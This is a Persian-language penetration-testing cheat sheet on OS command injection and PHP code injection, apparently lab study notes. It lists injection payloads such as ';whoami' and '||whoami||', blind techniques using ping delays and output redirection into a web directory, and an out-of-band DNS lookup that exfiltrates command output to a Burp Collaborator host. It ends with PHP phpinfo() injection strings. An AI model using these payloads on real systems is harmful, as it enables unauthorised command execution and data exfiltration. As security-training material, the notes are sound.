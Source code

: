 # Remote Command Execution

## Concept
- در بخش های زیر به دنبال این آسیب پذیری می گردیم :
  - انتخاب یک آیتم از درون dropdown box
    - باید برای تغییر این پارامتر و نیز مشاهده تاثیر در پاسخ، حتما از Burp استفاده کنیم
  - درون فیلدهای بخش ثبت نظرات که ممکن است از دستورات سیستمی برای پردازش اطلاعات کاربر (مانند ایمیل) استفاده شده باشد
    - هنگام استفاده از Burp باید حتما URL Encoding داشته باشیم (مثلا به جای فاصله از + استفاده کنیم)

## Payloads
```
;whoami
;%20whoami
&whoami
&&whoami
|whoami
||whoami
%0Awhoami
```

## Blind OS Command Injection
- **Time delays** : ```x||ping+-c+10+127.0.0.1||```
<p align="right">در این حالت پس از اجرای دستور فوق، 10 ثانیه طول می کشد تا response را در مرورگر مشاهده کنیم</p> 

- **Output redirection** : ```||whoami>/var/www/images/output.txt||```
<p align="right">عکس ها در مسیر فوق ذخیره شده اند، در این حالت، خروجی دستور در مسیر share شده ذخیره می گردد و بعدا می توانیم یکی از عکس های محصولات را باز کرده، سپس نام  فایل را با نام output.txt تغییر دهیم، تا نتیجه دستور را مشاهده کنیم</p>

- **Out-of-band interaction** : ```x||nslookup+7goyqnfizle0fk6mj5zk5qjtrkxalz.burpcollaborator.net```
<p align="right">در اینحالت سرور می تواند به یک آدرس بیرونی وصل شود، برای بررسی از Burp Collaborator استفاده می کنیم </p>

- **Out-of-band data exfilteration** : ```||nslookup+`whoami`.x0y8fg1javlrivvsd4hp2koh58byzn.burpcollaborator.net||```
<p align="right">در اینحالت می خواهیم نتیجه دستور در کوئری DNS به سمت سرور مهاجم در اینترنت ارسال شود، که در اینجا از Burp Collaborator استفاده شده (باید بر روی Pull now کلیک شود) و خروجی به شکل "peter-jSRUyX.x0y8fg1javlrivvsd4hp2koh58byzn.burpcollaborator.net.burpcollaborator.net" خواهد بود.</p>

# Code Execution

## Payload
```
a";phpinfo();//
a".phpinfo();//
a);}phpinfo();//
```

## Sample PHP executable
- https://www.php.net/manual/en/function.shell-exec.php

